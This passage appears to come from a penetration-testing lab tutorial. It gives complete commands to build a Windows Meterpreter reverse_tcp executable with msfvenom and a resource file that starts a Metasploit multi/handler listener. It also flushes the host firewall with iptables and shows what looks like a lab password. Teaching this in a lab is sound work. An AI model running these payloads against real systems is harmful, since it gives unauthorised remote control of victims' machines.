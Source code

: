 
- Now your PSExec should be working.

#################################################
# Section 3: Writing Meterpreter Resource Files #
#################################################

- In this lab we are going to create a binary payload via msfpayload then craft a .rc file that automates the 
process to setup the multi handler listener.
 
- We will start off by creating the msfvenom

sudo /sbin/iptables -F
	strategicsec

cd ~/toolz/metasploit
 
./msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=192.168.10.128 -f exe > /home/strategicsec/Desktop/meterpreter.exe
 
sudo chmod 777 /home/strategicsec/Desktop/meterpreter.exe
 
- In the syntax above, we set the payload, set the local host address to connect back too, then redirected the 
malicious payload to our desktop by issuing the correct path. We will also change the permissions on it to 777 just 
to make it easy for us to use WinSCP to copy it over to our Win7 machine.
 
- Next we are going to create a .rc (resource file) file that will automate the process for setting up a listener.
 
- Navigate to the /home/strategicsec/toolz/metasploit/ so that when you create the .rc file you can save it in the 
working directory.
 
 
- Type 'touch meterpreter.rc' to create the file.
touch meterpreter.rc
 
- Type 'echo use exploit/multi/handler  >> meterpreter.rc' to be appended to the .rc file.
echo use exploit/multi/handler  >> meterpreter.rc
 
- Type 'echo set PAYLOAD windows/meterpreter/reverse_tcp  >> meterpreter.rc' to be appended to the .rc file.
echo set PAYLOAD windows/meterpreter/reverse_tcp  >> meterpreter.rc
 
- Type 'echo set LHOST 192.168.10.128>> meterpreter.rc' to be appended to the .rc file.
echo set LHOST 192.168.10.128>> meterpreter.rc
 
- Type 'echo exploit -j -z >> meterpreter.rc' to be appended to the .rc file.
echo exploit -j -z >> meterpreter.rc
 
- Then cat the meterpreter.rc out to verify that everything in the file looks ok.
cat meterpreter.rc
 
Now at the command prompt, type 'sudo ./msfconsole -r meterpreter.rc' to start the msfconsole module and call/run 
